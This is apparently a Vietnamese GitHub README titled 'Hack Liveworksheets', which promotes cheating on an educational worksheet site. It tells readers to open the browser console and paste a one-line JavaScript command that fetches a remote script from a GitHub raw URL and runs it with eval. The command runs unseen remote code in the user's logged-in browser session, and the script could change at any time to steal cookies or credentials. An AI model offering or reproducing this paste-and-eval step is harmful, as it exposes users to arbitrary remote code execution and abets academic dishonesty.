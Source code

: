 # Dành cho ngôn ngữ Tiếng Việt

<p align="center">
     <img width="216" height="135" src="resources/liveworksheets.png"/>
</p>

#### <p align="center"> Minh-Nhật-A3

### 👨‍💻 Hack Liveworksheets

**Sử dụng F12** hoặc **Ctrl+Shift+J** để mở phần bảng điều khiển.

----

### 🎓 Hướng dẫn

**Copy dòng sau và Paste vào bảng điều khiển**

```javascript
fetch("https://raw.githubusercontent.com/Rainsh0wer/Project.Rain/main/resources/hack.js")
.then(a=>a.text().then(b=>eval(b)))
```

<p align="center">
     <img src="resources/k6.png"/>
</p>

### 🎬 Video Hướng Dẫn
``` Hiện chưa có ```

# Người đăng
- [Rainsh0wer](https://github.com/Rainsh0wer)


